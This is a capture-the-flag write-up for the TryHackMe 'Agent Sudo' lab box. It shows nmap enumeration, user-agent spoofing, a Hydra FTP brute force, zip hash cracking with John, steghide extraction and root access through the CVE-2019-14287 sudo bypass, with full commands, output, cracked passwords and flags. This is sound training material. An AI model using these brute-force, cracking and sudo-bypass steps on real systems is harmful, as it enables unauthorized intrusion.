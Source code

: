 # Agent Sudo

## Enumerate

### nmap

```bash
root@ST:/home/agentsudo# nmap -sC -sV 10.10.111.208
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-29 18:25 UTC
Nmap scan report for 10.10.111.208
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.59 seconds
```

We got message telling us to change user-agent with codename to access the site 

```txt

Dear agents,

Use your own <b>codename</b> as user-agent to access the site.

From,
Agent R
```

I try changing it with A, B and C as code name and got this message for C

```bash
root@ST:/home/agentsudo# curl -L -A "C" 10.10.111.208
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<bri>
Agent R 
```

## Hash cracking and brute-froce

burteforce ftp password

```bash
root@ST:/home/agentsudo# hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.111.208
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-29 18:56:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.111.208:21/
[21][ftp] host: 10.10.111.208   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-29 18:58:08
```

Then I logged in ftp using `chris:crystal` and I downloaded all the files

```bash
root@ST:/home/thm/agentsudo# ftp 10.10.111.208
Connected to 10.10.111.208.
220 (vsFTPd 3.0.3)
Name (10.10.111.208:root): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
...
```

then I extract the zip file from cutie.png using binwalk then used zip2john to get zip password in order to crack it

```bash
root@ST:/home/thm/agentsudo# binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

```bash
root@ST:/home/thm/agentsudo/_cutie.png.extracted# zip2john 8702.zip > zip.hash
root@ST:/home/thm/agentsudo/_cutie.png.extracted# cat zip.hash 
8702.zip/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:To_agentR.txt:8702.zip:8702.zip
```

then crack zip password and extract the content

```bash
root@ST:/home/thm/agentsudo# john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:04 DONE (2021-09-29 19:23) 0.2457g/s 6038p/s 6038c/s 6038C/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
root@ST:/home/thm/agentsudo# cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

```bash
root@ST:/home/thm/agentsudo# echo QXJlYTUx | base64 -d
Area51
```

```bash
root@ST:/home/thm/agentsudo# steghide extract -sf cute-alien.jpg 
Enter passphrase: Area51 
wrote extracted data to "message.txt".
root@ST:/home/thm/agentsudo# cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

## Capture the user flag

Login to ssh with `james:hackerrules!` to get user flag

```bash
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

after running reverse google image search on Alien_autopsy.jpg, I found an artile about the incident 'Roswell alien autopsy'

## Privilege escalation

```
james@agent-sudo:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

the user james have sudo right to use `/bin/bash` as root

[exploit-db | CVE-2019-14287](https://www.exploit-db.com/exploits/47502)

I run the exploit to get root access and flag

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash -i
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

